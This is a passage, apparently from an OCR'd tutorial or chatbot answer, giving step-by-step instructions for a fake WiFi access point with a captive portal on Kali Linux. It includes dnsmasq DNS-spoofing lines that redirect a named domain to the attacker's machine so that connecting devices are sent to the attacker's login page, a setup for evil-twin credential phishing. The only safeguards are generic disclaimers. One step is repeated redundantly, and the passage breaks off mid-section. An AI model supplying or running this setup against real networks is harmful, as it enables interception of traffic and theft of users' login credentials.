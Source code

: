 9. **Start Captive Portal**:
   Start your fake access point and captive portal. Devices connecting to your fake WiFi network should be automatically redirected to your login page.

By following these steps, you can create a fake access point with a captive portal that automatically opens your login page when devices connect to it. Remember to use this knowledge responsibly and ethically, and only perform such actions on networks for which you have explicit permission. Unauthorized interception of network traffic is illegal and unethical.

# 5
If your login website is hosted at http://loginexample.com, you need to ensure that when users connect to your fake WiFi access point, all DNS requests for loginexample.com are redirected to your Kali Linux machine where the login page is hosted. Here's how you can modify the configuration:

1. **Configure DNS Spoofing**:
   Open the `dnsmasq` configuration file:
   ```bash
   sudo nano /etc/dnsmasq.conf
   ```
   Add the following line to redirect DNS requests for loginexample.com to your Kali Linux machine:
   ```
   address=/loginexample.com/192.168.1.1
   ```
   Replace `192.168.1.1` with the IP address of your Kali Linux machine.

2. **Update Captive Portal Configuration**:
   You may also need to update the captive portal configuration to handle requests for loginexample.com. Typically, this isn't necessary if the DNS spoofing is configured correctly, but you can add it for redundancy:
   ```bash
   sudo nano /etc/dnsmasq.conf
   ```
   Add the following line:
   ```
   address=/loginexample.com/192.168.1.1
   ```

3. **Restart Services**:
   After making these changes, restart the `dnsmasq` service to apply the configuration:
   ```bash
   sudo systemctl restart dnsmasq
   ```

With these configurations in place, when devices connect to your fake WiFi access point and attempt to access http://loginexample.com, they will be automatically redirected to your login page hosted on your Kali Linux machine. Ensure you have proper authorization before conducting such activities on any network.

# 6
To ensure that when users connect to your fake network, they are automatically redirected to your login page, you need to configure your fake access point to act as a captive portal. Here's how you can achieve this:
